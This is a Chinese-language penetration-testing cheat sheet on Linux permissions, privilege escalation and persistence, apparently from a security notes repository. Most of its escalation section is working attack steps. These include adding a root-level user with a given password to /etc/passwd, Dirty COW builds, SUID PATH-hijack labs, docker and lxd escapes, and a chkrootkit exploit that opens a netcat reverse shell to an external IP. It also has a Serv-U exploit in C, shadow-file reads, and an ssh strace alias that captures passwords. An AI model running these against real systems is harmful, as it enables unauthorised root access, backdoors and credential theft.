 持久化 - Linux
========================================

什么是权限
----------------------------------------
在Linux 系统中， ``ls -al`` 即可查看列出文件所属的权限。这里我用kali系统来演示。

::

	……
	drwxr-xr-x  2 kali kali    4096 Jan 27 12:52 Downloads
	-rw-r--r--  1 root root     903 Jun 14 11:33 exp.html
	-rw-r--r--  1 root root  153600 May  5 09:42 flag
	lrwxrwxrwx  1 kali kali      28 May 14 08:28 flagg -> /proc/self/cwd/flag/flag.jpg
	-rw-r--r--  1 kali kali     188 May 14 08:29 flagg.zip
	-rw-r--r--  1 root root 1807342 Apr 20 06:52 get-pip.py
	drwx------  3 kali kali    4096 Jun 18 21:35 .gnupg
	-rw-r--r--  1 root root      56 Jun 16 23:29 hash.txt
	-rw-r--r--  1 root root   12396 Jun 11 00:13 hydra.restore
	-rw-------  1 kali kali    5202 Jun 18 21:35 .ICEauthority
	-rw-r--r--  1 root root    2046 Jun 10 22:58 jim_pass.txt
	-rwsr-xr-x  1 root root      63736 Jul 27  2018  passwd
	……

::

	例如：
	-rw-r--r--  1 root root      56 Jun 16 23:29 hash.txt

- 第一位
	| ``-`` :代表普通文件
	| ``d`` :代表目录
	| ``l`` :代表软链接
	| ``b`` :代表块文件
	| ``c`` :代表字符设备
- 第二及后面几位,分别三个为一组
	| ``rw-r--r--`` 代表文件所属的权限,r:文件可读。w:文件可修改。-:表示暂时没有其他权限。x:表示可执行
	| ``rw-`` 表示文件所拥有者的权限
	| ``r--`` 表示文件所在组的用户的权限
	| ``r--`` 表示其他组的用户的权限。
	| ``s`` s代表着二进制文件具有SUID权限(假如属主没有执行权限，那么显示的是大S)
- 第二组数据 ``1`` 
	| 如果文件类型为目录，表示目录下的字目录个数
	| 如果文件类型是普通文件，这个数据就表示这个文件的硬链接个数
- 第三组数据 ``root`` ,表示该文件所有者为root用户
- 第四组数据 ``root`` ,表示该文件所在组为root组
- 第五组数据 ``56`` ,表示文件的大小为多少字节。如果为一个目录，则为 ``4096`` 。
- 第六组数据表示最后一次修改时间
- 第七组数据表示文件名称

相关指令
----------------------------------------
- sudo
    - -V 显示版本编号
    - -h 会显示版本编号及指令的使用方式说明
    - -l 显示出自己（执行 sudo 的使用者）的权限
    - -v 因为 sudo 在第一次执行时或是在 N 分钟内没有执行（N 预设为五）会问密码，这个参数是重新做一次确认，如果超过 N 分钟，也会问密码
    - -k 将会强迫使用者在下一次执行 sudo 时问密码（不论有没有超过 N 分钟）
    - -b 将要执行的指令放在背景执行
    - -p prompt 可以更改问密码的提示语，其中 %u 会代换为使用者的帐号名称， %h 会显示主机名称
    - -u username/#uid 不加此参数，代表要以 root 的身份执行指令，而加了此参数，可以以 username 的身份执行指令（#uid 为该 username 的使用者号码）
    - -s 执行环境变数中的 SHELL 所指定的 shell ，或是 /etc/passwd 里所指定的 shell
    - -H 将环境变数中的 HOME （家目录）指定为要变更身份的使用者家目录（如不加 -u 参数就是系统管理者 root ）
    - command 要以系统管理者身份（或以 -u 更改为其他人）执行的指令
	
	::
	
		# sudo -u userb ls -l
		$ sudo -u uggc vi ~www/index.html
		
- su
	- 语法：su [-fmp] [-c command] [-s shell] [--help] [--version] [-] [USER [ARG]] 
	- -f 或--fast不必读启动档（如 csh.cshrc 等），仅用于 csh 或 tcsh
	- -m -p 或 --preserve-environment 执行 su 时不改变环境变数
	- -c command 或 --command=command 变更为帐号为 USER 的使用者并执行指令（command）后再变回原来使用者
	- -s shell 或 --shell=shell 指定要执行的 shell （bash csh tcsh 等），预设值为 /etc/passwd 内的该使用者（USER） shell
	- --help 显示说明文件
	- --version 显示版本资讯
	- --l或--login 这个参数加了之后，就好像是重新 login 为该使用者一样，大部份环境变数（HOME SHELL USER等等）都是以该使用者（USER）为主，并且工作目录也会改变，如果没有指定 USER ，内定是 root
	- USER欲变更的使用者帐号
	- ARG传入新的shell参数
	
	::
	
		su -c ls root

权限提升
----------------------------------------
- linux exploit suggester（kernel<3.4.4）
	+ ``https://github.com/mzet-/linux-exploit-suggester``
	+ ``https://github.com/InteliSecureLabs/Linux_Exploit_Suggester``
- 明文root密码/密码复用
- sudo提权
	::
	
		普通用户一般是无法运行root所有者的命令的，运用sudo可以使普通用户使用root用户的命令。
		但是在一些场景下，管理员为了平常运营方便给sudoer文件配置不当，从而导致权限提升的问题产生。 
		vim /etc/sudoers
		添加：test ALL=(ALL:ALL) NOPASSWD:ALL #test为我们的用户 
		
- 可写入的/etc/passwd文件提权
	- 查询写入权限：ls -al /etc/passwd
	- 写入：``echo 'Tom:ad7t5uIalqMws:0:0:User_like_root:/root:/bin/bash' >> /etc/passwd``
	- 密码为：``Password@973``
	- su Tom
	- linux生成用户密码：``mkpasswd -m sha-512``
- 脏牛漏洞本地提权
	- 内核版本低于列表里的版本(>=2.6.22)
		::
		
			Centos7 /RHEL7    3.10.0-327.36.3.el7
			Cetnos6/RHEL6     2.6.32-642.6.2.el6
			Ubuntu 16.10         4.8.0-26.28
			Ubuntu 16.04         4.4.0-45.66
			Ubuntu 14.04         3.13.0-100.147
			Debian 8                3.16.36-1+deb8u2
			Debian 7                3.2.82-1
		
	- 编译
		::
		
			git clone https://github.com/gbonacini/CVE-2016-5195.git
			sudo apt-get install g++
			make
			
			git clone https://github.com/FireFart/dirtycow
			gcc -pthread dirty.c -o dirty -lcrypt
			./dirty my-new-password
			mv /tmp/passwd.bak /etc/passwd
			
			git clone https://github.com/dirtycow/dirtycow.github.io
			gcc -pthread dirtyc0w.c -o dirty -lcrypt
		
- 内核漏洞利用
	- 搜索特定系统和内核版本利用漏洞
		- searchsploit linux kernel 3.2 
		- searchsploit centos 7 kernel 3.10
	- 搜索漏洞利用文件路径
		- searchsploit -p 37951.py
- 攻击有root权限的服务
- 通过有SUID属性的可执行文件
	::
	
	
		功用:用户运行某个程序时，如果该程序有SUID权限，那么程序运行为进程时，进程的属主不是发起者，而是程序文件所属的属主。
		作用：只作用于二进制文件中。
		1、只作用在二进制程序文件中（如作用在普通文件中没有任何意义）。
		2、在默认情况下，用户发起一个进程，该进程的属主是发起者，而并非是文件的属主，此时进程是以发起者的身份去运行。
		3、如果给二进制程序文件添加了SUID权限后，用户发起一个进程，该进程的属主为程序文件所属的属主，而并非是发起者。
	
	- ``find / -perm -4000 -ls``
	- ``find / -perm -u=s -type f 2>/dev/null``
	- ``find / -user root -perm -4000 -print 2>/dev/null``
	- ``find / -user root -perm -4000 -exec ls -ldb {} \;``
	- ``常用的提权文件：Nmap,Vim,find,Bash,More,Less,Nano,cp,netcat``
	
	::
	
	
		GTFOBins是Unix二进制文件的精选列表,可用于绕过配置错误的系统中的本地安全限制。
		可用于查询suid权限的文件是否能够越权。
		https://gtfobins.github.io
		
- 利用可用的root权限
    - ``sudo -l``
	::
	
	
		[root@localhost ~]# su - tom    ##切换用户
		[tom@localhost ~]$ sudo -l    ##查看此用户拥有的特殊权限
		We trust you have received the usual lecture from the local System
		Administrator. It usually boils down to these three things:
			#1) Respect the privacy of others.
			#2) Think before you type.
			#3) With great power comes great responsibility.
		[sudo] password for tom:     ##这里需要验证密码，以保证是用户本人执行操作
		Matching Defaults entries for tom on this host:
			requiretty, !visiblepw, always_set_home, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE
			INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
			env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY
			LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS
			_XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin
		User tom may run the following commands on this host:
			(root) /usr/sbin/useradd    ##可以以root身份，使用useradd命令
			
		[tom@localhost ~]$ sudo /usr/sbin/useradd test1    ##添加用户test1
		[tom@localhost ~]$ tail -1 /etc/passwd
		test1:x:501:501::/home/test1:/bin/bash        ##添加成功
- crontab计划任务
	- 查看计划任务
		::
		
			cat /etc/crontab
			SHELL=/bin/sh
			PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

			# Example of job definition:
			# .---------------- minute (0 - 59)
			# |  .------------- hour (0 - 23)
			# |  |  .---------- day of month (1 - 31)
			# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
			# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
			# |  |  |  |  |
			# *  *  *  *  * user-name command to be executed
			17 *  * * *     root    cd / && run-parts --report /etc/cron.hourly
			25 6  * * *     root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
			47 6  * * 7     root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
			52 6  1 * *     root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
			
			四种标识符含义：
			，	间隔多久
			-	连续多久
			/	每隔多久
			*	所有时间
			
			实例1：每月1、10、22日的4:45重启network服务
			45 4 1,10,22 * * /usr/bin/systemctl restart network
			实例2：每周六、周日的1:10重启network服务
			10 1 * * 6,7 /usr/bin/systemctl restart network
			实例3：每天18:00至23:00之间每隔30分钟重启network服务
			*/30 18-23 * * * /usr/bin/systemctl restart network
			实例4：每隔两天的上午8点到11点的第3和第15分钟执行一次重启
			3,15 8-11 */2 * * /usr/sbin/reboot
			实例5：每周日凌晨2点30分，运行cp命令对/etc/fstab文件进行备份，存储位置为/backup/fstab-YYYY-MM-DD-hh-mm-ss；
			30 2 * * 7 /usr/bin/cp /etc/fstab /tmp/fstab-`date “+\%F_\%T”`
			实例6：一月一号的4点重启smb
			0 4 1 1 * /usr/bin/systemctl restart smb   #4点钟只执行一次命令，正确答案;
			* 4 1 1 * /usr/bin/systemctl restart smb   #四点到五点执行了60次命令，错误答案：
			实例7：晚上11点到早上7点之间，每隔一小时重启smb
			0 23-0/1,1-7/1 * * * /usr/bin/systemctl restart smb
			0 23,0,1,2,3,4,5,6,7  * * * /usr/bin/systemctl restart smb
			实例8：每一小时重启smb
			0 * * * * /usr/bin/systemctl restart smb


- docker用户组提权
	::
	
		id
		uid=1001(selena) gid=1001(selena) groups=1001(selena),115(docker)
		#根据上面的id命令执行的结果，发现selena是docker组的，于是使用docker提权
		
    - docker images命令查看已经存在的镜像,没有的话就pull一个
		- docker pull alpine
    - 挂载宿主机目录到docker镜像内	 
	 ::
	 
		# docker run -v /:/mnt  -it alpine
		# docker run -v /etc/:/mnt -it alpinecd /mntcat shadow
		# docker run -it -v /宿主机目录:/容器目录 镜像名 /bin/bash
		-i: 以交互模式运行容器，通常与 -t 同时使用；
		-t: 为容器重新分配一个伪输入终端，通常与 -i 同时使用；
		
	- 也可以在宿主机/etc/passwd中添加特权用户
- lxd用户组提权
	::
	
		git clone  https://github.com/saghul/lxd-alpine-builder.git
		cd lxd-alpine-builder
		./build-alpine
		编译一个容器，然后放在服务器
		目标机器上执行wget下载到本地，并执行以下命令
		lxc image import ./alpine-v3.10-x86_64-20191008_1227.tar.gz --alias myimage
		lxc init myimage ignite -c security.privileged=true
		lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
		lxc start ignite
		lxc exec ignite /bin/sh
		id
		
- Linux Privilege Escalation Using PATH Variable
	- $PATH
		::
		
			echo $PATH
			/usr/gnu/bin:/usr/local/bin:/bin:/usr/bin:.
			If you notice ‘.’ in environment PATH variable it means that the logged user can execute 
			binaries/scripts from the current directory and it can be an excellent technique for an 
			attacker to escalate root privilege.
			
	- Ubuntu LAB SET_UP
		::
		
			mkdir script
			cd script
			nano demo.c
				#include<unistd.h>
				void main()
				{
					setuid(0);
					setgid(0);
					system("ps");
				}
			gcc demo.c -o shell
			chmod u+s shell
			find / -perm -u=s -type f 2>/dev/null
			方法一：
			cd /tmp
			echo "/bin/bash" > ps
			chmod 777 ps
			echo $PATH
			export PATH=/tmp:$PATH
			cd /script
			./shell
			方法二：
			cd /script/
			cp /bin/sh /tmp/ps
			echo $PATH
			export PATH=/tmp:$PATH
			./shell
			方法三：
			ln -s /bin/sh ps
			export PATH=.:$PATH
			./shell
			
	- Ubuntu LAB SET_UP
		::
		
			mkdir script
			cd script
			nano demo.c
				#include<unistd.h>
				void main()
				{
					setuid(0);
					setgid(0);
					system("id");
				}
			gcc demo.c -o shell
			chmod u+s shell
			find / -perm -u=s -type f 2>/dev/null
			cd /tmp
			echo "/bin/bash" > id
			chmod 777 id
			echo $PATH
			export PATH=/tmp:$PATH
			cd /script
			./shell2
			whoami
			
	- Ubuntu LAB SET_UP
		::
		
			mkdir script
			cd script
			nano demo.c
				#include<unistd.h>
				void main()
				{
					setuid(0);
					setgid(0);
					system("cat /etc/passwd");
				}
			gcc demo.c -o shell
			chmod u+s shell
			find / -perm -u=s -type f 2>/dev/null
			cd /tmp
			nano cat
				/bin/bash
			chmod 777 cat
			echo $PATH
			export PATH=/tmp:$PATH
			cd /script
			./shell
			
	- Ubuntu LAB SET_UP
		::
		
			mkdir script
			cd script
			nano demo.c
				#include<unistd.h>
				void main()
				{
					setuid(0);
					setgid(0);
					system("cat msg.txt");
				}
			gcc demo.c -o shell
			chmod u+s shell
			find / -perm -u=s -type f 2>/dev/null
			cd /tmp
			vi cat
				/bin/bash
			chmod 777 cat
			echo $PATH
			export PATH=/tmp:$PATH
			cd /script
			./shell
	- 示例
		::
		
			find / -perm -u=s -type f 2>/dev/null
			发现/usr/bin/healthcheck
			运行string /usr/bin/healthcheck
			发现运行了命令‘ifconfig‘ and ‘ fdisk ‘
			cd /tmp
			echo "bin/bash" > fdisk
			chmod 777 fdisk
			export PATH=/tmp:$PATH
			/usr/bin/healthcheck
			cd /root
			ls
			
			
- 第三方组件提权
	- chkrootkit(<=0.49)
		- msf:unix/local/chkrootkit
		- 写入/tmp/update
		
		::
		
			用一个普通用户在/tmp文件夹下新建一个可执行文件update，然后运行带漏洞的chkrootkit，
			那么这个文件会被以root的身份执行。
			运行chkrootkit
			方法一：searchsploit -p 33899
			echo "/usr/bin/nc -e /bin/sh 192.168.43.154 4444" > /tmp/update
			chmod +777 /tmp/update
			方法二：echo 'echo "root:123456" | sudo chpasswd' > /tmp/update
			chmod 777 /tmp/update
			su - root
			
	- tmux
		+ 运行pspy64发现tmux以root权限运行
			|tmux2|
		+ tmux进程
			|tmux1|
		+ 提权
			::
			
				export TERM=xterm
				tmux -S /opt/.tmux-0/sockets/default attach
				
			|tmux3|	
			
	- tac
		+ tac -s 'RANDOM' "/etc/shadow"
		+ tac -s 'RANDOM' "/etc/passwd"
		+ tac -s 'RANDOM' "/root/root.txt"
		
- 其它
	- https://github.com/SecWiki/linux-kernel-exploits
	- Serv-U提权
		::
		
			Serv-U FTP Server < 15.1.7 - Local Privilege Escalation (1)
			CVE编号为CVE-2019-12181
			
			#include <stdio.h>
			#include <unistd.h>
			#include <errno.h>

			int main()
			{       
				char *vuln_args[] = {"\" ; id; echo 'opening root shell' ; /bin/sh; \"", "-prepareinstallation", NULL};
				int ret_val = execv("/usr/local/Serv-U/Serv-U", vuln_args);
				// if execv is successful, we won't reach here
				printf("ret val: %d errno: %d\n", ret_val, errno);
				return errno;
			}
	
	- aria2c
		::
		
			前提是具有SUID权限。
			#Copy /etc/passwd by read as a root
			/usr/bin/aria2c -i /etc/passwd
			
			#Add user with root rigts in the file
			Tom:ad7t5uIalqMws:0:0:User_like_root:/root:/bin/bash
			
			#Upload it inside /etc (must be in /etc directory)
			/usr/bin/aria2c -o passwd "http://<ip>/newpasswd" --allow-overwrite=true
			
			#Get the shell! (Pass : Password@973)
			su Tom
	- apt-get
		::
		
			前提sudo免密执行权限
			sudo apt-get changelog apt
			!/bin/sh
			
			
持久化
----------------------------------------
- 反弹shell
- suid shell
- icmp后门
- sshd wrapper
- sshd软链接后门
- port knocking
- pam后门
- webshell
- rootkit
- strace 后门
    - ``alias ssh='strace -o /tmp/.ssh.log -e read,write,connect -s 2048 ssh'``
	
.. |tmux1| image:: ../images/tmux1.png
.. |tmux2| image:: ../images/tmux2.png
.. |tmux3| image:: ../images/tmux3.png